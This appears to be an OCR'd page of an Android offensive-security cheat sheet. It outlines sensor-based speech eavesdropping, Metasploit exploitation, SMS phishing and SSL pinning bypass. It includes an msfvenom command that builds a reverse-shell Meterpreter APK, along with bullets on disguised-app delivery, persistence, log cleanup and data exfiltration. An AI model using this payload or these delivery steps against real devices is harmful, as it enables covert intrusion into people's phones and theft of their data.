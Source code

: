 1. **Sensor Data Collection**:
   - Accelerometer data sampling during phone calls
   - Gyroscope data correlation for improved accuracy
   - Machine learning model application for speech reconstruction

2. **Audio Reconstruction**:
   - Vibration pattern analysis from device sensors
   - Speech pattern inference from accelerometer fluctuations
   - Noise filtering and signal processing for audio clarity

### Exploiting Android Device using Metasploit
1. **Payload Generation**:
   ```
   msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -o payload.apk
   ```

2. **Social Engineering Delivery**:
   - APK disguised as legitimate application
   - Email attachment or malicious download link
   - USB drop attacks in physical locations

3. **Meterpreter Session Establishment**:
   - Reverse shell connection to attacker machine
   - Persistent access through service installation
   - Anti-forensics and log cleanup capabilities

4. **Post-Exploitation**:
   - Privilege escalation through local exploits
   - Lateral movement to connected devices
   - Data exfiltration and persistence maintenance

---

## Advanced Android Attack Techniques

### Advanced SMS Phishing
- **Smishing Campaigns**: Targeted SMS messages with malicious links
- **SIM Box Fraud**: Illegitimate SMS routing through SIM card farms
- **Premium Rate SMS**: Unauthorized subscription to expensive SMS services
- **Two-Factor Authentication Bypass**: SMS-based 2FA interception

### Bypass SSL Pinning
1. **Runtime Manipulation**:
   - Frida framework for dynamic SSL pinning bypass
   - Xposed module installation for system-level SSL modification
   - Certificate pinning validation function hooking

2. **Static Analysis Approach**:
   - APK decompilation and SSL pinning code identification
   - Certificate validation logic modification
   - Application repackaging with modified SSL handling

3. **Network-Level Bypass**:
   - Proxy tool configuration (Burp Suite, OWASP ZAP)
   - Custom certificate authority installation
   - Traffic routing through SSL-stripping proxies
